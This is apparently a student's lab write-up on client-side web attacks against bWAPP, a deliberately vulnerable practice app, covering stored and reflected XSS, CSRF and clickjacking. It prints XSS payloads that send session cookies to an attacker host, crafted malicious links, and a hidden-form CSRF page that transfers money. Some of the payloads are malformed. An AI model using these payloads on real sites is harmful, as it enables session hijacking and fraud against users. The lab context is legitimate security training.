 # Web Application Security Lab 4 Writeup
### Olson Section 1
#### Ryan Cheevers-Brown


## XSS - Stored (Blog)

I'm starting by testing the functionality. I'm going to add a blog post, check the 'show all' box, and see what happens. 

![image](images/xss-stored-1.png)

![image](images/xss-stored-2.png)

This appears to be a simple comment box. 

Next, I'm going to try some basic javascript injection to steal a session cookie: 

```
This is a test of a potentially vulnerable comment block...<script>alert(document.cookie)/script>
```

![image](images/xss-stored-3.png)

![image](images/xss-stored-4.png)

We can see that the text box is vulnerable to injection. 

Unfortunately, I couldn't get it to do an injection with any variant of this payload:

```
<script src="http://10.0.1.40:9000?cookie="+document.cookie></script>
```

I even tried injecting it as an image:

```
<script>
    var i = document.createElement("img");
    i.src = "http://10.0.1.40:9000?cookie="+document.cookie;
</script>
```

But I was never able to get a connection back to my netcat shell. 

Investigating the source for the page reveals this: 

![image](images/xss-stored-5.png)

This *should* be a working Stored XSS request, but I am not sure why I'm not observing it work. 

## XSS - Reflected (GET)

I'm starting off by inputting a name to see what happens. 

![image](images/xss-get-1.png)

It prints out "welcome Ryan Brain" below the text input boxes. Looks like it's concatenating the two strings, adding a "welcome", and returning the result when the page loads again. 

We can see that the parameters are reflected in the URL:

![image](images/xss-get-2.png)

I'm going to try some basic HTML injection to see if the fields are vulnerable by printing my name in bold 

```
First: <b> Ryan </b> 
Last: Brain
```

![image](images/xss-get-3.png)

We can see that my name came back bold, meaning that the page is properly encoding the HTML and it might be vulnerable to JS injection. 

I tested this by including some javascript to make an alert: 

![image](images/xss-get-4.png)

This means that the field should be vulnerable to a reflected XSS attack with code similar to the following: 

First Name:
```
<script src="http://10.0.1.40:9000?cookie="+document.cookie></script>
```

This attack would be realized by getting a user to click a link structured like the following: 

```
http://link.to.bwapp.com/xss_get.php?firstname=%0AJohn%3Cscript%20src=%22http://link.to.attacker.com:9000?cookie=%22+document.cookie%3E%3C/script%3E%25lastname=Brown&form=submit
```

The payload (contained in the FirstName parameter) would reflect the user's session cookie to the IP specified at `link.to.attacker.com`. 

## XSS - Reflected (JSON)

I'm starting this test by examining the normal functionality. Searching for Iron Man shows that the movie exists. The name is reflected in both the web page and URL, meaning that this is potentially vulnerable to reflection attack. 

![image](images/xss-json-1.png)

Let's inject a simple payload. 

![image](images/xss-json-2.png)

That didn't work! I'm going to look at the page source to understand what's going on. 

![image](images/xss-json-3.png)

This shows that the input string is already inside a JS tag. This means we just need to close everything that it's inside of to inject our javascript. Let's make a payload!

```
Iron Man "}]}'; alert(123)</script>
```

This results in working injectable Javascript!

![image](images/xss-json-4.png)

This attack would be realized by getting a user to click a link structured like the following: 

```
http://link.to.bwapp.com/xss_json.php?title="]}]'%3b+http://link.to.attacker.com:9000?cookie=%22+document.cookie<%2Fscript>&action=search
```

The payload (title parameter) would reflect the user's session cookie to the IP specified at `link.to.attacker.com`. 

## CSRF (Transfer Amount)

Clientside Request Forgery is an attack where the client is tricked into performing some action on the behalf of the attacker, without knowlege of the client. We are going to use this technique to transfer 1000 EUR to my account, `#225360`. 

We are starting out by testing the form normally. 

![image](images/csrf-1.png)

It appears that the parameter data is GET encoded using the `account` and `amount` parameters. Therefore, we should be able to transfer money anywhere we want by manipulating these parameters and getting the client to click a link. 

We will generate HTML code with Github Copilot to do the CSRF exploit: 

```
<html>
  <body>
  <script> history.pushState('', '', '/')</script>
    <form action="http://link.to.bwapp.com/csrf_2.php">
      <input type="hidden" name="account" value="225360"/>
      <input type="hidden" name="amount" value="1000"/>
      <input type="hidden" name="action" value="transfer"/>
      <input type="submit" value="Submit Request"/>
    </form>
  </body>
</html>
```

When opened in a browser, this should cause a "Submit Form" button that transfers 1000 EUR to my account from the accounts of anyone logged into the banking application who clicks it. 

## Clickjacking (Movie Tickets)

Clickjacking is a vulnerability where you effectively trick a user into clicking something they did not intend to click. 

This is usually done by putting an iFrame over a portion of a web page with a confirmation button or some other affirmative button below the iFrame. 

My bWAPP installation does not come with the `/evil/clickjacking.htm` image that is supposed to be there. It is unclear why. 

![image](images/clickjacking-1.png)

According to resources on the internet, it looks like there's supposed to be some code on that page:

```
<iframe style="position:absolute; top:70px; width:1000px; height:1000px; 'src='../bWAPP/clickjacking.php" frameborder="0"></iframe>
```

And a separate image source:

```
http://localhost/images/free_tickets.png
```

![image](images/clickjacking-2.png)

## Any other client side vuln

